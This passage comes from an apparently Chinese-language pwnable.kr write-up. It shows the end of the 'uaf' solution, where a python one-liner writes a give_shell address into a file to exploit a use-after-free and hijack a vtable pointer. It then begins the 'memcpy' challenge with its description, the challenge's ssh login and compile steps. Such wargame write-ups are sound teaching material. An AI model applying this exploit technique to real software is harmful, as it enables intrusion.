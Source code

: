 利用uaf触发case2处任意写, 将&give_shell - 8写入v3指针
```
$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'" > /tmp/give_shell
$ ./uaf 24 "/tmp/give_shell"
```

![](/assets/img/writeup/2017-08-13-pwnable-writeup/0x016-007.png)


## 0x017 memcpy

>Problem Description:  
>Are you tired of hacking?, take some rest here.  
>Just help me out with my small experiment regarding memcpy performance.  
>after that, flag is yours.  
>Download:  
>http://pwnable.kr/bin/memcpy.c  
>Address:  
>ssh memcpy@pwnable.kr -p2222 (pw:guest)  

copy源码, 先编译跑一遍
```
$ apt-get install g++-multilib
$ gcc -o memcpy memcpy.c -m32 -lm
```

发现调用fast_memcpy报错, 检查源码